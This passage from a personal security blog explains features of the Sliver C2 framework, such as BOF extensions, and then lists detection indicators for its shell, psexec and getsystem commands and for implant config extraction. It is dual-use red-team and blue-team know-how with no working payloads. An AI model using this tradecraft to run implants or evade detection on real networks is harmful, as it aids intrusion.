Basically (and please correct me if I'm wrong), BOFs allow you to essentially just add additional "functions" and capabilities to your implant without having to compromise OPSEC and fork a process. Sliver implements this through the armory, supported by the COFF Loader extension, so you'll need to install that first. However, if you install any of the BOFs already available in the armory, the COFF Loader will also be installed anyway.

The usage of the BOFs in the armory is pretty much identical to getting other aliases so I won't go through that process again. However, if you want to use existing BOFs that are not in the armory, you'll need to create a `manifest.json` file to register them as an extension with your client, and the [documentation](https://github.com/BishopFox/sliver/wiki/BOF-&-COFF-Support) covers this well enough. That being said, there's already a *lot* of them in the armory.

![alarmobot](https://an00brektn.github.io/img/sliver/alarmobot.png)
<sup>oh wait wrong game again</sup>

## Ending Phase: Detection
As fun as the l33t h4x are, it is also necessary to understand some of the indicators that Sliver has. This is beneficial to catch people who are being lazy with their usage of the C2, but also only extends the back and forth between detection and evasion. The ideas discussed here are, for the most part, specifically for Sliver- general C2 operation detection is something that's suited a lot better for a general malware analysis post or something like that.

The two best references I've seen for this are linked here, but I'll run through some of the things that they say here:
- [Microsoft - Looking for the ‘Sliver’ lining](https://www.microsoft.com/security/blog/2022/08/24/looking-for-the-sliver-lining-hunting-for-emerging-command-and-control-frameworks/)
- [Cyber Attack & Defense - Finding the Sliver Lining](https://www.youtube.com/watch?v=izMMmOaLn9g)
<sup>Seems like they weren't all too original with their titles.</sup>

One thing to note here is that a highly sophisticated threat actor or adversary is probably not going to be letting the easy default config stuff slip through. Realistically, it's more important to understand that there is a C2 in play and taking some malware samples and tooling (typical [Pyramid of Pain](https://www.sans.org/tools/the-pyramid-of-pain/) stuff) that they leave rather than to look at an alert and go "hmm, is this Sliver?" That being said, we all make mistakes, and this is still good information.

### `shell`
One of the first things you might stumble into while using the C2 is if you want to drop into a real shell on the remote host, and you'll get a prompt like this
```shell
sliver (DIFFICULT_DYNAMO) > shell

? This action is bad OPSEC, are you an adult?
```

The C2 is calling you out for good reason. We've already talked about the fact that the session itself will be in the currently running processes, but the `shell` takes it to a new level. If we drop into a shell, then run some commands, and check the Windows Event Viewer, we'll see an interesting entry.

![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220926232548.png)

The `-Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8` (in the event ID 400, 600, or 4104) is actually an indicator for the Sliver implant. However, although this isn't specific to Sliver, it'll probably be easier to find this anytime someone runs a `whoami` or `systeminfo` from that shell. RastaMouse has a good [talk](https://www.youtube.com/watch?v=qIbrozlf2wM) on the subject of OPSEC and how you get caught.

### `psexec` and `getsystem`
I could have thrown more commands under this header, but the general idea here is that these commands and others are considered core to most major C2 functionality. The exact syntax of the indicators will obviously change from framework to framwork, but many of the indicators of Sliver are well documented in the Microsoft link from before.

In the case of `psexec`, Sliver achieves the lateral movement using a service binary, similar to how impacket also handles it.  In this case, the detection is very similar. By default, Sliver will run the binary from `C:\Windows\Temp` and give it a randomized 10 character name, so just look for that file path in the logs. Alternatively, if a hacker is especially careless, they'll probably not change the name and description of the service, which are "Sliver" and "Sliver implant" resplectively. To that note, any mention of Sliver as a string, while not 100% guarantee of a Sliver beacon, should at least raise some suspicions when searching.

`getsystem` is basically a macro that attempts to inject into another process, `spoolsv.exe` by default, and abusing the `SeDebugPrivilege` to get `NT AUTHORITY\SYSTEM` privileges within that process, pretty much exactly how Meterpreter does it. Sysmon is a great tool for detecting this and I don't have it installed in my dev machine (nor do I want to being this far into it), but again, a lot of this stuff is already documented. All you have to do is just find the patterns.

### Config Extraction
When dealing with an incident response (IR) event, it's important to be able to get the most information as quickly as possible so that you can take remediation steps quickly. For C2's, the key to this is attempting to extract the configuration that is stored in the implant. Ippsec has a great video on [Malleable Agent Configs](https://www.youtube.com/watch?v=FiT7-zxQGbo) and how they might be put together in certain implementations.

An adversary is not going to just leave their config out in the open- that's just bad practice. Most C2s will encrypt their configurations, and then obfuscate the code itself so static analysis becomes an absolute pain. However, you can't just use the configuration while it's encrypted, it has to be decrypted (usually in-memory), and then used. Because this blog post has gone on long enough, however, I will probably save this for a post in the future.

## Conclusion
So it turns out C2 is much more complex than I was originally anticipating, so I plan on making a part 2 to this post where I dive into some of the more advanced techniques that Sliver can offer like process hollowing, `msf-inject`, etc., but I think this is a good enough place to stop. It's really cool to see some of these huge projects really push the boundaries of what we can already do, whether it's through automation or presenting some novel idea. Now that I have a new laptop, I'm hoping to be able to explore some of these complex topics I wasn't able to do as easily before. It also makes you realize how far behind open-source blue team tooling is in comparison, so maybe that's a blog post for another day.

Follow me [@An00bRektn](https://twitter.com/An00bRektn), and feel free to shoot me a DM if you have any questions, comments, or concerns.

Until next time! :D

## References
Definitely collected information from all over the place, here are links that were helpful in putting all of this together that I don't remember linking explicitly in the blog.

- [The Official Wiki](https://github.com/BishopFox/sliver/wiki) - **A MUST READ** along with the source code
- [path_h/to/file - Hunting Sliver](https://blog.tofile.dev/2021/09/04/sliver.html)
- [Dominic Breuker - Learning Sliver C2](https://dominicbreuker.com/post/learning_sliver_c2_03_transports_in_detail_mtls_and_wg/)
- [tishina - Sliver OPSEC](https://tishina.in/opsec/sliver-opsec-notes)
- [Team Cymru - Sliver Case Study](https://www.team-cymru.com/post/sliver-case-study-assessing-common-offensive-security-tools)